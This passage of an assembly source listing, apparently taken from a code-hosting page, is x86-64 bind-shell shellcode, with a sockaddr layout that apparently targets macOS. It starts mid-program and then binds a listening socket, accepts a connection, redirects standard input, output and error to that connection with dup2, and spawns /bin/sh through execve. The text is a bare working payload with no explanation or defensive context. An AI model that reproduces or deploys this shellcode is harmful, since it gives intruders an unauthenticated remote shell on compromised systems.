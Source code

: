 ```armasm
    syscall

    ; struct sockaddr_in {
    ;         __uint8_t       sin_len;
    ;         sa_family_t     sin_family;
    ;         in_port_t       sin_port;
    ;         struct  in_addr sin_addr;
    ;         char            sin_zero[8];
    ; };
    mov  rsi, 0xffffffffa3eefdf0
    neg  rsi
    push rsi
    push rsp
    pop  rsi

    ; bind(host_sockid, &sockaddr, 16)
    mov  rdi, rax
    xor  dl, 0x10
    mov  rax, r8
    mov  al, 0x68
    syscall

    ; listen(host_sockid, 2)
    xor  rsi, rsi
    mov  sil, 0x2
    mov  rax, r8
    mov  al, 0x6a
    syscall

    ; accept(host_sockid, 0, 0)
    xor  rsi, rsi
    xor  rdx, rdx
    mov  rax, r8
    mov  al, 0x1e
    syscall

    mov rdi, rax
    mov sil, 0x3

dup2:
    ; dup2(client_sockid, 2)
    ;   -> dup2(client_sockid, 1)
    ;   -> dup2(client_sockid, 0)
    mov  rax, r8
    mov  al, 0x5a
    sub  sil, 1
    syscall
    test rsi, rsi
    jne  dup2

    ; execve("//bin/sh", 0, 0)
    push rsi
    mov  rdi, 0x68732f6e69622f2f
    push rdi
    push rsp
    pop  rdi
    mov  rax, r8
    mov  al, 0x3b
    syscall
```
